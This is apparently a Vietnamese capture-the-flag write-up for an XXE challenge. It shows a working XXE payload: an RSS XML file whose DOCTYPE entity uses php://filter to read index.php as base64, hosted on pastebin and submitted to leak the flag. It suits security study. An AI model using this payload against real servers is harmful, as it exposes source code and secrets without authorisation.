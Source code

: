 Lỗ hổng XXE rất giống với lỗ hổng LFI,RFI chúng ta từng làm ở những challenge trước, đều có khả năng include file để thực thi(tham khảo [video](https://www.youtube.com/watch?v=gjm6VHZa_8s) này). Với hint như vậy ta nghĩ ngay đến việc input link 1 đoạn code XML trên `pastebin` . Tạo 1 xml form theo mẫu của w3school:

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<rss version="2.0">

<channel>
  <title>W3Schools Home Page</title>
  <link>https://www.w3schools.com</link>
  <description>Free web building tutorials</description>
  <item>
    <title>RSS Tutorial</title>
    <link>https://www.w3schools.com/xml/xml_rss.asp</link>
    <description>New RSS tutorial on W3Schools</description>
  </item>
  <item>
    <title>XML Tutorial</title>
    <link>https://www.w3schools.com/xml</link>
    <description>New XML tutorial on W3Schools</description>
  </item>
</channel>

</rss> 
```

thử với những payloads lấy trên [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection#php-wrapper-inside-xxe), thì có `PHP Wrapper inside XXE` hoạt động. Sửa lại code như sau(thêm dòng DOCTYPE và biến &xxe):

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<rss version="2.0">

<channel>
  <title>W3Schools Home Page</title>
  <link>https://www.w3schools.com</link>
  <description>Free web building tutorials</description>
  <item>
    <title>RSS Tutorial &xxe;</title>
    <link>https://www.w3schools.com/xml/xml_rss.asp</link>
    <description>New RSS tutorial on W3Schools</description>
  </item>
  <item>
    <title>XML Tutorial</title>
    <link>https://www.w3schools.com/xml</link>
    <description>New XML tutorial on W3Schools</description>
  </item>
</channel>

</rss>
```

Tạo 1 pastebin rồi input link đến nó, gửi form, website trả về 1 đoạn code đã được base64-encode. Decode nó ra sẽ đọc được flag